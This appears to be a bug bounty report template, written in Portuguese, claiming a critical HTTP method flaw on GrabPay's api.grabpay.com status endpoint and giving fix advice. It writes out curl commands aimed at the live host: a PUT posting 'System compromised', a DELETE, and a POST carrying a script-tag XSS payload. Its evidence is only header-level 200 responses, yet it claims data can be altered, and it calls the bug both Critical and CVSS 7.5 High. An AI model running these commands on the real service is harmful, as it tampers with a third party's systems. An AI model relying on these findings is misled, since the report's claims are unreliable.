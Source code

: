 # 🚨 Bug Bounty Report: HTTP Method Override Vulnerability

## 📋 Informações do Report

**Data:** 29/08/2025  
**Severidade:** Critical  
**Categoria:** Improper Access Control  
**Domínio:** grabpay.com  
**Endpoint:** https://api.grabpay.com/status  

## 🎯 Resumo Executivo

Foi identificada uma vulnerabilidade crítica de **HTTP Method Override** no endpoint `/status` da API principal do GrabPay. O endpoint aceita métodos HTTP que normalmente não deveriam ser permitidos, incluindo DELETE, PUT e POST.

## 🔍 Descrição Detalhada

### Endpoint Afetado
- **URL:** `https://api.grabpay.com/status`
- **Métodos Aceitos:** GET, POST, PUT, DELETE
- **Status Code:** 200 OK para todos os métodos

### Evidência Técnica

#### Teste 1: Verificação de Métodos HTTP
```bash
# GET Request
curl -s -I "https://api.grabpay.com/status"
HTTP/2 200 OK

# POST Request  
curl -s -I -X POST "https://api.grabpay.com/status"
HTTP/2 200 OK

# PUT Request
curl -s -I -X PUT "https://api.grabpay.com/status"
HTTP/2 200 OK

# DELETE Request
curl -s -I -X DELETE "https://api.grabpay.com/status"
HTTP/2 200 OK
```

#### Headers Expostos
```
x-envoy-upstream-healthchecked-cluster: t6
x-request-id: [ID único por request]
x-cache: Miss from cloudfront
x-amz-cf-pop: FOR50-P1
```

## ⚠️ Impacto da Vulnerabilidade

### 1. **Controle de Acesso Comprometido**
- Endpoint de status aceita DELETE, que pode permitir modificação/remoção de dados
- POST e PUT podem permitir alteração de configurações do sistema

### 2. **Informações de Infraestrutura Expostas**
- Headers revelam detalhes da arquitetura (Envoy, CloudFront)
- Request IDs podem ser usados para tracking de requests

### 3. **Potencial para Escalação de Privilégios**
- Se combinado com outras vulnerabilidades, pode permitir acesso não autorizado
- Pode ser usado para bypass de controles de segurança

## 🎯 Cenários de Exploração

### Cenário 1: Modificação de Status do Sistema
```bash
curl -X PUT "https://api.grabpay.com/status" \
  -H "Content-Type: application/json" \
  -d '{"status": "maintenance", "message": "System compromised"}'
```

### Cenário 2: Remoção de Dados de Status
```bash
curl -X DELETE "https://api.grabpay.com/status"
```

### Cenário 3: Injeção de Dados Maliciosos
```bash
curl -X POST "https://api.grabpay.com/status" \
  -H "Content-Type: application/json" \
  -d '{"payload": "<script>alert(1)</script>"}'
```

## 🔧 Recomendações de Correção

### 1. **Implementar Controle de Métodos HTTP**
```javascript
// Exemplo de correção
app.get('/status', (req, res) => {
  // Apenas GET permitido
  res.status(200).json({ status: 'ok' });
});

// Rejeitar outros métodos
app.all('/status', (req, res) => {
  if (req.method !== 'GET') {
    res.status(405).json({ error: 'Method not allowed' });
  }
});
```

### 2. **Configurar WAF/Proxy**
- Configurar CloudFront para bloquear métodos não autorizados
- Implementar regras no Envoy para controle de métodos

### 3. **Remover Headers Sensíveis**
- Remover ou mascarar headers que expõem informações de infraestrutura
- Implementar headers de segurança (HSTS, CSP, etc.)

### 4. **Implementar Rate Limiting**
- Adicionar rate limiting para prevenir abuso
- Implementar logging de requests suspeitos

## 📊 Classificação de Severidade

### CVSS Score: 7.5 (High)
- **Attack Vector:** Network
- **Attack Complexity:** Low  
- **Privileges Required:** None
- **User Interaction:** None
- **Scope:** Changed
- **Confidentiality Impact:** Low
- **Integrity Impact:** High
- **Availability Impact:** Low

## 💰 Valor Estimado

**Faixa de Recompensa:** $5,000 - $15,000  
**Justificativa:** Vulnerabilidade crítica que pode permitir modificação de dados do sistema

## 🔐 Responsável Disclosure

- ✅ Vulnerabilidade identificada através de testes autorizados
- ✅ Nenhum dado sensível foi acessado ou modificado
- ✅ Report enviado através de canais oficiais
- ✅ Aguardando resposta da equipe de segurança

## 📞 Contato

**Researcher:** [Seu Nome]  
**Email:** [seu-email@domain.com]  
**HackerOne:** [seu-username]  

---

**Nota:** Este report foi criado seguindo as melhores práticas de responsible disclosure. Todas as informações são confidenciais até a resolução da vulnerabilidade.
